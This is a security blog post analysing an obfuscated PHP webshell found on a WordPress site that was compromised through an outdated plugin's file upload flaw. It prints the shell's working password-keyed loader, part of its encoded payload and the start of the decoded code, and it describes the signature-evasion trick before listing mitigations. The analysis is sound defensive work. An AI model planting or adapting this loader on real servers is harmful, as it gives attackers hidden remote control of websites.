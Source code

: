 ```yaml
---
layout: post
title: "Highly obfusticated PHP webshell"
date: 2015-11-26 18:54
comments: true
categories:
- security
- php
- webshell
- compromise
- ioc
- wordpress
---
```


If there's one thing to be said for Wordpress blogs, it's that users rarely seem to understand than keeping things up to date is really going to stop them from getting owned 9/10 times.

So if you take one thing away from this post please make sure it's:

1. *KEEP YOUR WORDPRESS INSTALL UP TO DATE*
2. *KEEP ALL YOUR WORDPRESS PLUGINS UP TO DATE*

Simple enough right? You would have thought so, but of course this isn't a "cure all" and there's other vulnerabilites and mitigations to consider; but not for this post.

# RFU

*Remote File Upload*.

So the site in question had a plugin which was out of date. This plugin had a RFU vulnerability which allowed attackers to upload arbitrary code files then head to

https://thesite.com/wp-content/pluginname/uploadedfile.php 

To execute the attack.

Standard, boring crap right ? 

Well this post isn't to focus on how it happened, nor why it happed. 

Simply put the php file itself I found *very interesting*.

# PHP Code obfustication

Sure, code obfustication is nothing new. Heck tools like msfvenom allow you to choose from a variety of obfustication methods the premis for which is to avoid signatures for "known bad" files, and thus avoid common signatures (which is why you should not rely solely on signature bases analysis).

The thing is the overwhelming majority of webshell obfustication is done through "packing", you'll see it use base64, gzinflate, eval and that's a pretty common standard.

Not this little *bastard*, and that's why this got my attention

Head of the file:

```php
<?php $wp__wp='base'.(32*2).'_de'.'code';$wp__wp=$wp__wp(str_replace("\n", '', 'QOC7sj/9Bh8g6EJWtzJjaKUSdpGj/VzFUKzIhEUBQzNS4Il8OaZdAcKdt4ix0eWNniRKnvuBmTO2W39H
d7VmyCL7+MB1t1eOa8wWJiYQqisMKzcIhXvmOdkg4LTsDk6HIm+rsjD2nlcBpGKNVW+/irhPtk6zlOIq
aUVBxVWCJ7CT30ogudYn0spol2MwyvBRWJHwaKlKY3bYQ39LodSJUGhlB3tJAMiAvCMLpWp91UHt+Ukm
aHypp+OTC9oWJSwpwALTqIX+z2Yetp8r3RRBf2JYPiUtxuuEsxi4lIGM477sPiLqhFJLI7wiV35oyUJJ
G9Zv4OWsozkEARLUEBqKlxlH21b0+Sv568ea9hMD/JhLLx7TeG3wsqfHQ5yxIY2GTHHq9eT3yeGCteT4
xprMpl7rNcEtG1b6Ez9SSsbG61fEHg4ozeVVyrEPlDscsyXlhysW2kDf1CLg0URWuW7GsiJ2xPsyG+RX
ctsM+8t+W4nbM1AyuxSQv03OoA3R0sGLeicrm41VByDI0lDlwfmwq1K1jT2KsXD60BA/PDs2FBB9IfhJ
awK1/tFiGbi+G/gb9KLEzrr8ZCgkTqH8RWJ/avnDbK/DMBy5rZzVU/VEFNaRTVyN5lBxphQ6nJpT9vM5
Z5Cu7f8PYmaBthyP3iqZk/ur0i1+64uyYe9XaiXkORQ/F90DEaY0m3MAxIptHs8lQMclnoIX27gTJnAv
NpcyJgsM5Z8w/6dApQTxWU4/iA+QIKZATqlKYDpuScahCgOIlenxBhEsjB7s2mpG82vcs+/FoxuobVLZ
```

Well, that's ... *Interesting* ...

Tail of the file

```php
'));$wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);$wp___wp();}}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

## Long string is loooooooong ...

So first it's a base64 encoded string; we know this due to the first line of code which is doing some signature evasion itself.

```php
$wp__wp='base'.(32*2).'_de'.'code';
```

Which of course yields 'base64_decode'

So then the next line

```php
$wp__wp=$wp__wp(str_replace("\n", '', 'QOC7
```

Is really:

```
$wp__wp=base64_decode(<payload>)
```

So let's use some python ...

```
>>> payload="""QOC7s...""".replace("\n","")
>>> len(payload)
20432
>>> from base64 import b64decode
>>> b64decode(payload)
'@\xe0\xbb\xb2?\xfd\x06\x1f
...
```

So we have some raw intelligibile data, the WTF continues ...

## So what now?

Let's look at the tail of the file again it's doing some additional processing let's add some whitespace and comments to make it readable

```php
//Ternary if statements
//if we have the password in the POST or COOKIE var set $wp_wp to this. If not set $wp_wp to null
$wp_wp = isset($_POST['wp_wp']) ? $_POST['wp_wp'] : (isset($_COOKIE['wp_wp']) ? $_COOKIE['wp_wp'] : NULL);

//If wp_wp is not NULL (so we have a password set from the above)
if( $wp_wp !== NULL ) {
    //mutate the var
    $wp_wp = md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));
    //assuming: test123 as the password.
    /*
     * php -r '$wp_wp = "test123"; $wp_wp = md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp)); echo $wp_wp;'
     * cc03e747a6afbbcbf8be7668acfebee56a54720
     */ 
   
    //wp___wp is just an integer itterator, for for readability I'm substituting this for $i 
    for( $i = 0; $i < 15324; $i++){
        //wp__wp is the payload so I'm renaming this also to $payload
        //each char is unpacked by the following line
        $payload[$i] = chr(( ord($payload[$i]) - ord($wp_wp[$i])) % 256);
        //this is then appended to wp_wp (which is the password)
        $wp_wp .= $payload[$i];
    }
  
    if ( $payload = @gzinflate($payload)) {
        if( isset($_POST['wp_wp']) ) @setcookie('wp_wp', $_POST['wp_wp']);
        //recall this line from above: $wp__wp='base'.(32*2).'_de'.'code'
        //$i therefor is base64_decode(<unpacked payload>);
        $i = create_function('',$payload);
        unset($payload,$wp_wp);
        $i();
    }
}?>
<form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

I suppose we _could_ go the python route again, however as we've discerned the function (loop unpack payload -> create_function -> execute function), we can "disarm" it to instead echo out the unpacked code for further analysis.


So the file with the required modifications ...

```
257c257,266
< '));$wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);$wp___wp();}}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
\ No newline at end of file
---
> '));
> 
> $_POST['wp_wp'] = "test123";
> $wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);
> if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);
> //$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);
> //$wp___wp();
> echo $wp__wp;
> 
> }}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

The resulting payload starts off as

```php
@ini_set('log_errors_max_len',0);@ini_restore('log_errors');@ini_restore('error_log');@ini_restore('error_reporting');@ini_set('log_errors',0);@ini_set('error_log',NULL);@ini_set('error_reporting',NULL);@error_
reporting(0);@ini_set('max_execution_time',0);@set_time_limit(0);@ignore_user_abort(TRUE);@ini_set('memory_limit','1000M');@ini_set('file_uploads',1);@ini_restore('magic_quotes_runtime');@ini_restore('magic_quot
es_sybase');
...
```

And continues to create a webshell interface.


#So what?

Granted this may be viewed as little more than a geeks curiosity, however on a more serious note the main intriguing element of this webshell is that the password is an intrinsic part required to unpack the valid payload.

Without the password the unpack will fail; so consider if 

```php
$wp__wp='base'.(32*2).'_de'.'code';
```

Was instead moved to reside inside the packed payload, how would you possibly be able to begin to write a signature for such a file?

Fuzzy logic sure, look for long strings of seemingly random content, still I can see that's going to run false positives in the masses given the various obfusticating options out there for php such as those that require licensing ...

## Mitigation ?

1. SELinux set ON, will limit what the web server process can access (it's not going to stop it getting access to your database servers, and if you have `httpd_can_network_connect` set to true, it's not going to stop it creating a reverse shell either, check out `httpd_can_connect_db` to maintain web app functionality but make it harder for attackers)
2. KEEP UP TO DATE WITH PATCHES, Web application, system packages ... patch all the things!
3. WAF and/or IPS (inspect POST & GET, for SQL, known shell commands and block (will not prevent file download / upload))
4. PHP disable_functions ([I covered this back in 2008](https://www.flickr.com/photos/31732936@N06/3079949402/), [cyberciti has a good write up](http://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/))
